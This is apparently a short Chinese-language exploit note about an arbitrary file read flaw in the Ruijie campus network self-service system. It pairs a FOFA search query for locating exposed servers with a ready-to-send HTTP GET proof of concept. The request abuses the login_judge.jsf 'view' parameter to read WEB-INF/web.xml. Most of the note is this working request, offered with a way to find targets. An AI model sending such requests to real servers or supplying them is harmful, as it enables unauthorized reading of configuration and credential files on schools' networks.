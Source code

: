 **fofa**

title="校园网自助服务系统"

**一、漏洞简述**

锐捷自助服务校园网系统是一款用于管理校园网网络的软件。为教育信息的及时、准确、可靠地收集、处理、存储和传输等提供工具和网络环境，为学校行政管理和决策提供基础数据、手段和网络环境，实现办公自动化，提高工作效率、管理和决策水平。其接口login_judge存在任意文件读取漏洞，攻击者可通过该漏洞获取系统敏感信息。

**二、漏洞检测poc**

```yaml

GET /selfservice/selfservice/module/scgroup/web/login_judge.jsf?view=./WEB-INF/web.xml%3F HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2228.0 Safari/537.36
Connection: close
```

